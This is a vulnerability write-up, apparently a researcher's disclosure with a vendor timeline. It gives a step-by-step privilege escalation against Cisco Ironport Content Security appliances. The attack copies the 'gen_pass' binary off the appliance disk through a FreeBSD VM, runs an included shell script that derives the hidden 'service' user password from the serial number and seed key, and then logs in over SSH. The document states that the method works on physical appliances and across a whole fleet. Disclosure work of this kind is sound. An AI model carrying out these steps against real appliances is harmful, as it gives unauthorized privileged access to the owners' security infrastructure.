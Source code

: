 # Ironport Vulnerability: Privilege Escalation through internal utility extraction.
_This is a follow-up to the previously explored pub-key injection exploit._ The requirements are the same; however we will extract two files from the virtual appliance.

The main file of interest is the `gen_pass` executable. This program uses the seed key and the serial number as inputs, and will output the password used for the `service` user.

The initial steps are much the same, but we will not be making any changes to the disk of the appliance, so it is technically _safer_ to do. However, I still do not recommend using this on production appliances.

##### Timeline:
__Disclosure to Vendor:__ 2016-10-03

__Vendor Response:__ 2016-10-04

__Vendor Fix/Patch:__ TBA

__Public Disclosure:__ TBA

##### Meta:
__Cisco Bug IDs:__ TBA

#### Requirements
* __Hypervisor__ capable of Hosting 2 virtual machines (VMware Fusion is used in this document).
  * __Content Security VA__ (ESA, SMA, or WSA)
  * __FreeBSD VM__
* `admin` credentials to said VA.

## Instructions
#### 1. Prep
###### On the Hypervisor:
* Both the __Content Security VA__ and the __FreeBSD VM__ need to be shutdown.
* Manually add a the  __Content Security VA__ disk image to the __FreeBSD VM__.
![Adding Disk A](img/02_setup_freebsd_adding_disk_a.png)
![Adding Disk B](img/03_setup_freebsd_adding_disk_b.png)
* _Be sure to select the `Share this virtual disk...` option._
![Adding Disk C](img/04_setup_freebsd_adding_disk_c.png)
* _Verify that you are still going to boot to the `FreeBSD` disk, and not the appliance's._
![Adding Disk D](img/05_setup_freebsd_adding_disk_d.png)

#### 2. Startup and Discovery
###### On the Hypervisor:
* Start up the __FreeBSD VM__ and make sure it still boots to the original HD (NOT the __Content Security VA__ image).
![Boot Selection](img/06_setup_freebsd_verify_boot_disk.png)

###### On the FreeBSD VM:
* Determine the device label of the __Content Security VA__'s disk. (Mine was `/dev/da1*`)
![Mounting A](img/07_mounting_a.png)
* There are multiple available on the drive, so we will need to determine which is useful for this demonstration. (The 3rd partition was root).
![Mounting B](img/08_mounting_b.png)

#### 3. Copying the necessary files.
###### On the FreeBSD VM:
* Mount the partition we need with `mount -o rw /dev/da1p9 /wsa`
* Copy the `gen_pass` file to the local system.
* Unmount the disk with `umount /dev/da1p9`
* Mount the partition we need with `mount -o rw /dev/da1p3 /wsa`
* Copy `libcrypto.so.6` to the same directory as before.
* Unmount the disk with `umount /dev/da1p3`
![Copying the files](img/09_copying_gen_pass.png)

#### 4. Coercing the `gen_pass` executable
###### On the __Content Security VA__:
* Create or download the `ironpass` shell script and put it in the same folder as `gen_pass`.

```shell
#!/bin/sh

SERIAL_NUMBER=$1
export SERIAL_NUMBER
SEED_KEY=$2

# They use an old `libcrypto` version, so we need this temporarily.
# NOTE: This version difference can break things.
cp libcrypto.so.6 /usr/lib/libcrypto.so.6

printf "Serial: "
printf $SERIAL_NUMBER
printf "\nSeed Key: "
printf $SEED_KEY
printf "\n... Generating service password...\n"

PASSWORD=$( ./gen_pass $2 )
printf "Service Password: "
printf $PASSWORD
printf "\n"

# Cleaning Up the old libcrypto library.
rm /usr/lib/libcrypto.so.6
```

* The script takes two positional arguments.
  1. Serial Number of the Appliance
  2. Seed key
* Execute this command with `root` or `sudo`.
  * _A random demo serial was used below._

![Running the script](img/10_running_the_executable.png)

#### 4. Enabling Access
###### On the __Content Security Appliance__:
* Run the following commands: `techsupport` > `sshaccess`
* Use the seed key generated here in the script.

#### 5. Connecting
###### On a client system:
* SSH into the appliance using the `service` user and the password generated from the `ironpass` script.

![Connecting](img/11_gaining_access.png)

## Comments:
1. Due to the requirements of the `gen_pass` executable, it can only be executed on FreeBSD systems.
2. This vector can be used on both virtual or physical appliances, and it only needs to be done once for an entire fleet.
